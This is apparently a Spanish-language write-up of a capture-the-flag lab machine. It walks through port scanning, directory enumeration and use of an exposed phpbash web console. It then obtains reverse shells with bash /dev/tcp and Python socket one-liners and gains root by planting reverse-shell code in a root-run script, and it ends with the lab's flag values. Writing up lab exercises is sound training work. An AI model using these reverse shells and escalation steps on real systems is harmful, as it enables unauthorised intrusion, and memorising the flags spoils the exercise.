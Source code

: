 
# Nmap

>iniciamos con un escaneo basico de puertos con nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.197.9 -oN scanner
```

![[Pasted image 20250705135441.png]]

>Continuamos con un escáner con scripts básicos para sacar servicios y versiones

```bash
nmap -p80 -sCV 10.129.197.9 -oN targeted
```

![[Pasted image 20250705135536.png]]

# Puerto 80

>revisamos que hay en la pagina web que corre por el puerto 80

![[Pasted image 20250705135627.png]]

>revisamos la web pero a primera vista no hay gran cosa 

![[Pasted image 20250705135759.png]]

lo que si que vemos en la pagina web es que hay algun tipo de consola interactiva en la URL IP/uploads/phpbash.php

![[Pasted image 20250705135903.png]]

>pero al acceder no funciona la pagina por lo que podemos entender que si aun existe ya no esta en el directorio uploads

![[Pasted image 20250705135956.png]]

>Nos indican un repositorio github donde parece que explican el funcionamiento de esta herramienta y tenemos un usuario a la vista "Arrexel"


![[Pasted image 20250705140110.png]]

vemos que tiene dos programas que hacen lo mismo phpbash.php y phpbash.min.php que se encuentran en el  navegador


## Gobuster

>Utilizamos gobuster para buscar directorios en la pagina web

```bash
gobuster dir -u 10.129.197.9 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,py,sh -t 40
```

![[Pasted image 20250705140304.png]]

>Nos devuelve varios directorios y tras explorarlos un poco encontramos en dev lo siguiente:

![[Pasted image 20250705140342.png]]

>Hemos encontrado la consola interactiva

## phpbash.php

![[Pasted image 20250705140421.png]]

tratamos de mandar un ping a ver si la consola es capaz de interactuar con mi equipo

>Desde nuestra terminal nos ponemos en escucha de paquetes


```bash
tcpdump -i any icmp
```

![[Pasted image 20250705140711.png]]

y desde phpbash.php lanzamos el ping

```bash
ping -c 1 10.10.14.155
```

![[Pasted image 20250705140758.png]]

vemos que el paquete se tramita

![[Pasted image 20250705140816.png]]

y en  nuestra terminal recibimos la petición

por lo que es momento de tratar de enviar una shell


## Shell

>probamos a lanzar una shell con bash 

```bash
bash -c "bash -i &> /dev/tcp/192.168.1.175/1234 0>&1" 
```

mientras en nuestra terminal la esperamos con 

```bash
nc -nlvp 1234
```



![[Pasted image 20250705141401.png]]

>La shell parece mandarse pero no recibimos nada por el puerto en escucha


revisamos si tiene python instalado 

```bash
which python
```

![[Pasted image 20250705141439.png]]

>comprobamos que si lo tiene

probamos lanzar una shell con python hacia nuestro puerto en escucha

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.155",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![[Pasted image 20250705145256.png]]

>ahora si que tenemos la shell en nuestra terminal 

### Sanitizar la shell

> como sabemos que tiene python vamos a utilizarlo para sanitizar la shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

>ctrl + Z

```bash
stty raw -echo; fg
```

```bash
export TERM=xterm
```

```bash
stty rows 36 columns 140
```

>ahora si con una shell mas practica ya podemos trabajar

## Escalada de privilegios

>Utilizamos sudo -l y asi hacemos el primer reconocimiento

```bash
sudo -l
```

![[Pasted image 20250705145632.png]]

vemos que podemos usar el usuario scriptmanager sin contraseña

así que vamos a ver que podemos hacer con este usuario

>pivotamos al usuario scriptmanager

```bash
sudo -u scriptmanager /bin/bash -i
```

>Al explorar el directorio home encontramos el usuario arrexel el cual contiene la primera flag 

![[Pasted image 20250705145939.png]]

>seguimos explorando y vemos un archivo en la / raiz llamado scripts del cual somos propietarios con el usuario actual

![[Pasted image 20250705150044.png]]

![[Pasted image 20250705150103.png]]

>investigamos el archivo test.py

![[Pasted image 20250705150140.png]]


>vemos que genera un archivo .txt que como vimos en el directorio scripts el propietario es root por lo que suponemos que root es quien crea ese archivo

>Creamos un pequeño script de python para tratar de inyectar una shell que al ser creada por root esperemos que nos de esa shell con usuario root

![[Pasted image 20250705150402.png]]

```python
import socket, subprocess, os;

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("10.10.14.155",6666));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

>Nos ponemos en escucha para ver si recibimos la shell


```bash
nc -nlvp 6666
```

>lanzamos el script de python

```bash
python test.py
```

![[Pasted image 20250705151139.png]]

>Y ahi tenemos la shell como root

>vamos al directorio principal de root y ahi podemos ver la flag

![[Pasted image 20250705151252.png]]

# Flags

user.txt = 59f508119c6a8ff7a2f51be2dffccea1

root.txt = 7879c3fb5f18ec2c8e923829e742e83e